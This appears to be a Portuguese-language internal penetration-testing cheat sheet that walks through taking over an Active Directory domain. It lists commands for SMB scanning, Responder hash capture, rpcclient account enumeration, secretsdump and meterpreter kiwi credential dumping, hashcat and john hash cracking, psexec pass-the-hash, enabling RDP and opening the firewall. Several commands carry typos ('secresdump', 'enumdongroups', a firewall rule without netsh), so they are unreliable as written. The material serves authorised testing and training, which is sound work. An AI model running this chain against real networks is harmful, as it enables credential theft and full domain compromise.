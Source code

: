 ## Pentest Interno: Do zero a Domain Admin

## Pentest em ambientes modernos

## Identificando o escopo na rede

`nmap --open -v -sS -p 445 -Pn 192.168.0.0/24 -oG smb.txt`

Obs: Sempre busque otimizar seu tempo, no exemplo acima focamos na porta 445 pois faz parte do nosso escopo e ao inves de varrer varias portas que não iria nos servir focamos em uma porta especifica.

`cat smb.txt | grep "Up" | cut -d " " -f 2 > targets`

`crackmapexec smb targets`

`nmap -v --open -Pn 192.168.0.1`

*Obs:
- Busque identificar dentre os ip encontdos qual possui AD.
- Para identificar se um servidor é AD basta analisar as portas abertas do alvo.
- E caso entrone o servidor tente fazer resoluções de nome
- por exemplo: host IP_POSSIVELALVO IP_DOSERVIDOR


## Capturando hashes na rede

*Obs: Para capturar hashes na rede é preciso ativar o responder em host que pertence a mesms a rede onde os alvos estão localizados e o a configuração do respondender deve estar definido em relação aos IPs somente aqueles que estiverem dentro do scopo e tambem para facilitar o processo de coleta de informações.*


## Validando as credenciais

- smbclient
- crackmapexec
- psexec.py
- metasploit (psexec)


## Enumerando as contas do AD

`rpcclient -W dominio_da_rede -U usuario x.x.x.x`

Enumerando usuarios

`enumdomusers`

Enumerando grupos

`enumdongroups`

Obtendo informações sobre um determinado usuario

`getusername`

Comando usado para buscar informações sobre usuario

`queryuser`

**Buscando por usuarios Administrativos:**

Listando todos os grupos

`enumdongroups`

`querygro`

Exemplo de listagem de usuarios que pertencem ao grupo de administradores.

`querygroupmem 0x200`

Exemplo de consulta sobre um determinado usuario apos listar que pertence ao grupo de administradores

`queryuser 0x1f4`




## Conseguindo Domain Admin

Terminal normal

`impacket-secresdump dominiodarede/usuario:'password'@x.x.x.x`

Utilzando metasploit

`meterpreter > load kiwi`

`meterpreter > creds_all`

*Obs: DCC e DCC2 indica que é uma hashe.*

DCC - Domain cache credentials

Quebrando a hashe encontrada:

`hashcat -m 2100 hash.txt /usr/share/wordlists/rockyou.txt --force`

Exibindo a senha resolvida

`hashcat -m 2100 hash.txt /usr/share/wordlists/rockyou.txt --show`

Utilizando john

`john --format=nt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

Exibindo senha resolvida

`john --format=nt hash.txt --show`




## Obtendo acesso ao servidor

- crackmapexec
- psexec.py
- metasploit (psexec)


## Conclusão: Acesso completo

*Obs: utilzando a tecnica pass the hash*

`python3 /usr/share/doc/python3-impacket/examples/psexec.py usuario@x.x.x.x -hashes ......hashe_encontrada.......`

Habilitando RDP

`crackmapexec smb x.x.x.x -u usuario -p 'password' -M rdp -o ACTION=enable`

Caso tenha algum firewall bloqueando execute o comando abaixo para desbloquear

`C:\Windows\> advfirewall fireall add rule name="rdp" protocol=TCP dir=in localport=3389 action=allow`





















